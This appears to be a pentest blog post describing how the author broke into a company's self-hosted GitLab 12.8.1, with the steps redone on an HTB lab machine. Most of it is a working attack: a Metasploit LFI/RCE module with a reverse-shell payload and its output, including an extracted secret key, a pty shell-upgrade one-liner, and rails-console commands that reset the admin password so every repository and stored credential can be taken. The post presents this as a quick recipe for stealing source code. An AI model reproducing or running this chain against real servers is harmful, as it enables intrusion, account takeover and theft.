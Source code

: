 ```yaml
---
layout: default
---
```


### Steal project Source Code in 60 seconds

----------

![title](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/title.jpg)

----------

The journey starts with Company Gitlab CI with open register functional that i got from the rsource company list , Gitlab is self hosted on barametal hosting. The Current version of the gitlab-ce is vulnerable to LFI and RCE exploiting the RCE and getting initial shell in a server , Changing the admin account with github-rails console and login as him on gitlab. Got the private credentials. keys in a project-repo.

For notes used test env as HTB Machine - Laboratory because real env under NDA.

####  Gitlab CI resource

And i can see that Gitlab is hosted. I saw open Register function and Try do it!

----------

![register](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/register.jpg)

----------

Now i registered myself as oleksii and logged in

----------

![login](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/login.jpg)

----------

Didn’t see anything good and juicy then i just go to https://gitlab.site.io/help

----------

![version](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/version.jpg)

----------

So its 12.8.1 , so searched a bit about it on google and got so many CVEs. And on rapid7.com site saw info about vulnerabilities, it was disclosed few months ago (Created 12/10/2020) and was about LFI & RCE. The RCE only affects versions 12.4.0 and above when the vulnerable `experimentation_subject_id` cookie was introduced. Tested on GitLab 12.8.1 and 12.4.0.

This picture in Company Gitlab CI says a lot:)

----------

![asap](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/asap.jpg#center)

----------

#### RCE in the gitlab

Now i can that i exploitetion RCE using msfconsole tool https://www.rapid7.com/db/modules/exploit/multi/http/gitlab_file_read_rce because exploit was development and added it to exploit list. 

```
msf6 exploit(multi/http/gitlab_file_read_rce) > use exploit/multi/http/gitlab_file_read_rce
msf6 exploit(multi/http/gitlab_file_read_rce) > show options 

Module options (exploit/multi/http/gitlab_file_read_rce):

   Name             Current Setting                                               
   ----             ---------------                                               
   USERNAME         oleksii@test.test                                             
   PASSWORD         oleksii@test.test                                             
   RHOSTS           10.10.10.*                                                         
   RPORT            443                                                           
   SECRETS_PATH     /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml  
   TARGETURI        /users/sign_in                                                
   VHOST            gitlab.site.io                                                

Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.*       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```

Exploitation RCE vulnersability: 

```
msf6 exploit(multi/http/gitlab_file_read_rce) > exploit 
[-] Handler failed to bind to 10.10.14.*:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. GitLab 12.8.1 is a vulnerable version.
[*] Logged in to user oleksii
[*] Created project /oleksii/Dyb4bxA6
[*] Created project /oleksii/L8SKsN52
[*] Created issue /oleksii/Dyb4bxA6/issues/1
[*] Executing arbitrary file load
[+] File saved as: '/root/.msf4/loot/20210102134743_default_10.10.10.*_gitlab.secrets_489388.txt'
[+] Extracted secret_key_base 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
[*] NOTE: Setting the SECRET_KEY_BASE option with the above value will skip this arbitrary file read
[*] Attempting to delete project /oleksii/Dyb4bxA6
[*] Deleted project /oleksii/Dyb4bxA6
[*] Attempting to delete project /oleksii/L8SKsN52
[*] Deleted project /oleksii/L8SKsN52

Servers down wait when ut give up and add first ls -la command rezult ;) Free HTB account, ok.
```

Often during pen tests you may obtain a shell without having tty, yet wish to interact further with the system. Here are some commands which will allow you to spawn a tty shell. Obviously some of this will depend on the system environment and installed packages.

```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

#### Resetting admin password

Now since the gitlab is installed i can spawn a gitlab-rails console and reset the admin password , and check who is admin. Resetting admin password offical document link https://docs.gitlab.com/12.10/ee/security/reset_root_password.html

Used command from this doc I could reset admin password. Start a Ruby on Rails console with this command:
```
 gitlab-rails console -e production
```
Wait until the console has loaded.

There are multiple ways to find your user. You can search for email or username.
```
  user = User.where(id: 1).first
```

or

Other type get username and email without Gitlab authentification is use api https://gitlab.site.io/api/v4/users/1 

Now you can change your password:
```
 user.password = 'secret_pass'
 user.password_confirmation = 'secret_pass'
```
It’s important that you change both password and password_confirmation to make it work.

Don’t forget to save the changes.
```
 user.save!
```
Exit the console and try to login with your new password.

#### Login as admin on gitlab

Now can login as admin - dexter : secret_pass and can see all repos with credentials and keys. 

So now see how can steal project Source code in 60 seconds because I think If you repeat all command from this notes then spend no more than 60 second.in 60 seconds bacouse I think If you repeat all command from this notes and spend no more than 60 second. 




 